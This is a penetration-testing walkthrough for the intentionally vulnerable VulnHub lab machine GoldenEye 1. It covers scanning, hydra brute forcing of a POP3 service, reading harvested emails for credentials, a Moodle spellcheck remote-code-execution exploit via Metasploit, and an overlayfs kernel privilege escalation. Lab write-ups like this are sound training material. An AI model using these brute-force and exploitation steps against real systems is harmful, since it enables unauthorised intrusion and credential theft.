







# Walkthrough - GoldenEye 1, a vulnhub machine

## About the machine

| data |  |
|--------| ------- |
| Machine | GoldenEye 1 |
| Platform | Vulnhub |
| url | [link](https://www.vulnhub.com/entry/goldeneye-1,240/) | 
| Download | [https://drive.google.com/open?id=1M7mMdSMHHpiFKW3JLqq8boNrI95Nv4tq](https://drive.google.com/open?id=1M7mMdSMHHpiFKW3JLqq8boNrI95Nv4tq) |
| Download Mirror | [https://download.vulnhub.com/goldeneye/GoldenEye-v1.ova](https://download.vulnhub.com/goldeneye/GoldenEye-v1.ova) |
| Size | 805 MB |
| Author | [creosote](https://www.vulnhub.com/author/creosote,584/) |
| Release date | 4 May 2018 |
| Description | OSCP type vulnerable machine that's themed after the great James Bond film (and even better n64 game) GoldenEye. The goal is to get root and capture the secret GoldenEye codes - flag.txt. |
| Difficulty | Easy |


## Walkthrough

### Setting up the machines

I'll be using Virtual Box.

Kali machine (from now on: attacker machine) will have two network interfaces: 

- eth0 interface: NAT mode (for internet connection).
- eth1 interface: Host-only mode (for attacking the victim machine).

GoldenEye 1 machine (from now on: victim machine) will have only one network interface:

- eth0 interface.


### Reconnaissance


#### **First**, we need to identify our IP, and afterwards our IP's victim address. 

For that we'll be using [netdiscover](netdiscover.md).

```bash
ip a
```

eth1 interface of the attacker machine will be: 192.168.56.105.

```bash
sudo netdiscover -i eth1 -r 192.168.56.105/24
```

Results:

```
 3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                   
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor                                                  
 192.168.56.100  08:00:27:66:9a:ab      1      60  PCS Systemtechnik GmbH                                          
 192.168.56.101  08:00:27:dd:34:ac      1      60  PCS Systemtechnik GmbH
 ```

 So, the victim's IP address is: 192.168.56.101.

 
#### **Secondly**, let's run a port scan to see services:

```bash
nmap -p- -A 192.168.56.101
```

And results:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-17 13:31 EST
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
55006/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) RESP-CODES TOP USER UIDL PIPELINING AUTH-RESP-CODE CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
55007/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: RESP-CODES AUTH-RESP-CODE STLS SASL(PLAIN) USER CAPA PIPELINING TOP UIDL
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.89 seconds
```

As there is an Apache server, let's see what is in there. We'll be opening http://192.168.56.101 in our browser. 

In the front page they will give you an url to login: /serv-home/, and looking at the source code, in the terminal.js file you can read a section commented out:

```
//
//Boris, make sure you update your default password. 
//My sources say MI6 maybe planning to infiltrate. 
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//
```

Now, we have two usernames: boris and natalya, and we also have an aparently URL-encoded password. By using Burp Decode, we can extract the password: InvincibleHack3r


#### **Third**, now we can browse to http://192.168.56.101/sev-home 

A [Basic-Authentification](webexploitation/http-authentication-schemes.md) pop-up layer will be displayed. To login into the system, enter:

+ user: boris
+ password: InvincibleHack3r


#### **Fourth**, in the landing page we can read this valuable information: 

"Remember, since security by obscurity is very effective, we have configured our pop3 service to run on a very high non-default port". 

Also by looking at the source code we can read this commented line:

```html
<!-- Qualified GoldenEye Network Operator Supervisors: Natalya Boris -->
```

mmmm

As we know there are some high ports (such as 55006 and 55007) open and running dovecot pop3 service, maybe we can try to access it with the telnet protocol in port 55007. Also, we could have used netcat.  


```bash
telnet 192.168.56.101 55007
```

Results:

```
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASSWORD InvincibleHack3r
-ERR Unknown command.
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
USER natalya
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```


#### **Fifth**, let's try to brute-force the service by using [hydra](hydra.md).

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3
```

And the results:

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-17 13:57:42
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://192.168.56.101:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 192.168.56.101   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-17 14:00:19
```

We do the same for the user natalya.

```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3
```

And the results:

```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-19 13:45:18
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://192.168.56.101:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[55007][pop3] host: 192.168.56.101   login: natalya   password: bird
[STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-19 13:47:19
```

So now, we have these credentials for the dovecot pop3 service:

+ user: boris
+ password: secre1!

* user: natalya
+ password: bird


#### **Sixth**, let's access dovecot pop3 service 

We can use telnet as before:

```bash
telnet 192.168.56.101 55007
```

Results:

```
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASS secret1!
+OK Logged in.
```

Let's going to see all messages in our inbox:

```
# List messages in inbox
LIST
```

Results:

```
+OK 3 messages:
1 544
2 373
3 921
.
```

Now let's RETRIEVE all messages from inbox:

```
# For retrieving first message:
RETR 1

# For retrieving second message:
RETR 2

# For retrieving third message:
RETR 3

# For retrieving fourth message:
RETR 4

# There was no fifth message
```

And messages are:

```
RETR 1
+OK 544 octets
Return-Path: <root@127.0.0.1.goldeneye>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id D9E47454B1
        for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
Message-Id: <20180425022326.D9E47454B1@ubuntu>
Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
From: root@127.0.0.1.goldeneye

Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.
.
RETR 2
+OK 373 octets
Return-Path: <natalya@ubuntu>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id C3F2B454B1
        for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
Message-Id: <20180425024249.C3F2B454B1@ubuntu>
Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
From: natalya@ubuntu

Boris, I can break your codes!
.
RETR 3
+OK 921 octets
Return-Path: <alec@janus.boss>
X-Original-To: boris
Delivered-To: boris@ubuntu
Received: from janus (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id 4B9F4454B1
        for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
Message-Id: <20180425025235.4B9F4454B1@ubuntu>
Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
From: alec@janus.boss

Boris,

Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

PS - Keep security tight or we will be compromised.

.
RETR 5
-ERR There's no message 5.
```

Now, let's do the same for natalya:

```bash
└─$ telnet 192.168.56.101 55007
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass bird
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
.
retr 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

Ok, user creds are:

username: xenia
password: RCP90rulez!

Boris verified her as a valid contractor so just create the account ok?

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
**Make sure to edit your host file since you usually work remote off-network....

Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.
.
```


### Exploitation

Somehow, without really being aware of it, we have already entered into an Exploitation phase. In this phase, our findings will take us further so eventually we will be gaining access to the system.

#### **First**, use credentials to access the webservice

From our reconnaissance / exploitation of the dovecot pop3 service we have managed to gather these new credentials:

+ username: xenia
+ password: RCP90rulez!

And we also have the instruction to add this line to our /etc/hosts file:

```bash
# We open the /etc/hosts file and add this line at the end
192.168.56.101  severnaya-station.com/gnocertdir 
```

Now, in our browser we can go to that address and we can confirm that we have a moodle cms. We can login using the credentials for the user xenia. 


#### **Second**, gather information and try to exploit it

Browsing around we can retrieve the name of twot other users:




With these two new users in mind we can use hydra again to try to brute force them. Run in two separate tabs:

```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3
hydra -l admin -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3 
```

And we obtain results only for the username doak:

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-19 12:07:05
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://192.168.56.101:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: 192.168.56.101   login: doak   password: goat
1 of 1 target successfully completed, 1 valid password found
```

#### **Third**, login into dovecot using the credentials found

+ user: doak
+ password: goat

And now, let's read the messages:

```
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
list
+OK 1 messages:
1 606
.
retr 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!

.
```

#### **Fourth**, Log into moodle with new credentials and browse the service

As we have disclosed, again, a new credential for the moodle site, let's login and see what we can find: 

+ username: dr_doak
+ password: 4England!


After browsing around as user dr_doak we can download a field with some more information:


#### **Fifth**, analyse the image 

An image in a secret location is shared with us. Let's download it from http://severnaya-station.com/dir007key/for-007.jpg



Aparently this image has nothing juicy, but if we look their metadata with exiftool, then... magic happens:

```bash
exiftool for-007.jpg 
```

Results:

```
ExifTool Version Number         : 12.49
File Name                       : for-007.jpg
Directory                       : Downloads
File Size                       : 15 kB
File Modification Date/Time     : 2023:01:19 12:37:35-05:00
File Access Date/Time           : 2023:01:19 12:37:35-05:00
File Inode Change Date/Time     : 2023:01:19 12:37:35-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
```

One field catches our attention: "Image Description". The value for that field is not very... descriptable: eFdpbnRlcjE5OTV4IQ==.

The two equal signs at the end suggest that maybe base64 encode encryption is been employed. Let's use BurpSuite to decode it.




#### **Sixth**, now we can login into the moodle with admin credentials

+ user: admin
+ password: xWinter1995x!


As we are admin, we can browse in the sidebar to: Setting > Site administration > Server > Environment. There we can grab the banner with the version of the running moodle: 2.2.3.


#### **Seventh**, google for some exploits for moodle 2.2.3 

You can get to these results:

- [https://www.rapid7.com/db/modules/exploit/multi/http/moodle_cmd_exec/](https://www.rapid7.com/db/modules/exploit/multi/http/moodle_cmd_exec/).
- [https://www.exploit-db.com/exploits/29324](https://www.exploit-db.com/exploits/29324)

Here, an explanation of the vulnerability: moodle 2.2.3 has a plugin for checking out spelling. When creating a blog entry (for instance), the user can click on a bottom to check the spelling. In the backend, this triggers a connection with a service. Vulnerability here is that an admin user can modify the path to the service to include a one-lined reverse shell. This shell is going to be called when you click on the Check spelling button. For this to work, open a netcat listener in your machine. Also, in the plugins settings, you might need to change the configuration.

I'm not a big fan of metasploit, but in this case I've used it.


#### **Eight**: Metasploit, geting a shell  

**Module multi/http/moodle_spelling_binary_rce**

I've employed the module multi/http/moodle_spelling_binary_rce. Basically, Moodle allows an authenticated user to define spellcheck settings via the web interface. The user can update the spellcheck mechanism to point to a system-installed aspell binary. By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands in the context of the web application upon spellchecking requests. This module also allows an attacker to leverage another privilege escalation vuln. Using the referenced XSS vuln, an unprivileged authenticated user can steal an admin sesskey and use this to escalate privileges to that of an admin, allowing the module to pop a shell as a previously unprivileged authenticated user. This module was tested against Moodle version 2.5.2 and 2.2.3.

+ https://nvd.nist.gov/vuln/detail/CVE-2013-3630
+ https://nvd.nist.gov/vuln/detail/CVE-2013-4341
+ https://www.exploit-db.com/exploits/28174
+ https://www.rapid7.com/blog/post/2013/10/30/seven-tricks-and-treats





Now, we move our session to background with CTRL-z. 


**Module post/multi/manage/shell_to_meterpreter**

Our goal now is going to be to move from a cmd/unix shell to a more powered meterpreter. This will allow us later on to execute a module in metasploit to escalate privileges.

```msf
search shell_to_meterpreter
```

We'll be using the module "post/multi/manage/shell_to_meterpreter".


We only need to set session, and LHOST. 


If everything is ok, now we'll have two sessions. 




We've done this to be able to escalate privileges, since the session with shell cmd/unix didn't allow us to escalate privileges using exploit/linux/local/overlayfs_priv_esc.


### Escalating privileges

**Module exploit/linux/local/overlayfs_priv_esc**

We'll be using this module to escalate privileges. How have we got here? We run:

```bash
uname -a
```

Results:

```
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Now, after googling "exploit escalate privileges ubuntu 3.13.0", we get:

+ [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292).
+ [https://www.rapid7.com/db/modules/exploit/linux/local/overlayfs_priv_esc/](https://www.rapid7.com/db/modules/exploit/linux/local/overlayfs_priv_esc/).

Using any of these ways to exploit Goldeneye1 is ok. If you go for the first option and upload the exploit to the machine, you will soon realize that the victim machine has not installed the gcc compiler, so you will need to use cc compiler (and modify the code of the exploit). As for the second option, which I chose, metasploit is not going to work with the cmd/unix session. Error message is similar: gcc is not installed and code can not be compiled. You will need to set the meterpreter session for this attack to succeed.


The module exploit/linux/local/overlayfs_priv_esc attempts to exploit two different CVEs related to overlayfs. CVE-2015-1328: Ubuntu specific -> 3.13.0-24 (14.04 default) < 3.13.0-55 3.16.0-25 (14.10 default) < 3.16.0-41 3.19.0-18 (15.04 default) < 3.19.0-21 CVE-2015-8660: Ubuntu: 3.19.0-18 < 3.19.0-43 4.2.0-18 < 4.2.0-23 (14.04.1, 15.10) Fedora: < 4.2.8 (vulnerable, un-tested) Red Hat: < 3.10.0-327 (rhel 6, vulnerable, un-tested).





To exploit it, we need to use session 2. 


#### **Last**, getting the flag

Now, we can cat the flag:




```
cat .flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```


Isn't is just fun???


